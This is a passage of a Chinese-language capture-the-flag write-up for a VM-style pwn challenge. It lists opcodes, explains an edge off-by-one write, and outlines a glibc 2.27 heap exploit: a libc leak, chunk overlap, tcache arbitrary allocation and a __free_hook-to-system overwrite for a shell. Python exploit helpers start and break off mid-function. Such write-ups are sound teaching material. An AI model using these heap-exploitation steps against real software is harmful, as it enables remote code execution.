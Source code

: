 opcode-6 s_map2_down() 

![](https://i.loli.net/2021/05/18/O4b3pUFZ6EcXW8r.png)

opcode-7 a_map2_left() 

![](https://i.loli.net/2021/05/18/1hNO2Fr4kRB3l86.png)

opcode-8 d_map2_right()

![image-20210518225947523](https://i.loli.net/2021/05/18/VyPZdMnXp1Y3gsk.png)

opcode-9 show() 

![image-20210518230110759](https://i.loli.net/2021/05/18/TdCKzVD95omXr8E.png)

opcode-10 exit() 

![image-20210518230239281](https://i.loli.net/2021/05/18/DPueo5H7BLf6rAQ.png)

opcode-11 nop() 

![image-20210518230218884](https://i.loli.net/2021/05/18/BgwhO98VMrWPav5.png)

### 漏洞分析

根据hint可以知道， 主要的漏洞点在于wsad在map2中跑动的时候， 会检查map1的对应的标记位， 如果是0就运行一步， 如果为2/3会运行两步， 这里就是在边界利用跳两步实现一个越界修改一个字符，

而且只能在边缘越界一次， 所以我们可以使用s()配合矩形的大小l可以实现比较远距离的修改一个字符，



调试的话， 在qemu中的地址固定， 所以调试一次找到基地址以后断点和堆内存都是固定的，

### 漏洞利用

利用思路：

2.27, 存在一个字节的修改， 

首先通过unsorted-bin泄漏出来libc, 然后一个字节修改构造overlap， 配合tcache实现任意地址分配， free_hook修改为system, 稳定getshell, 

### exp

首先简单写下对应的函数：

```python 

def op2(op, x, y):
    return op.encode() + p8(x) + p8(y)

def op3(op, x, y, z):
    return op.encode() + p8(x) + p8(y) + p8(z)

def op4(op, x, y, z, a):
    return op.encode() + p8(x) + p8(y) + p8(z) + p8(a)

def map(l, w):
    return op2('M', l, w)

def new(w, l, size, con):
    data.append(con)
    return op4('*', w, l, size&0xff, (size>>8) & 0xff)

def add(w, l, size):
    return op4('*', w, l, size&0xff, (size>>8) & 0xff)

def dele(w, l):
```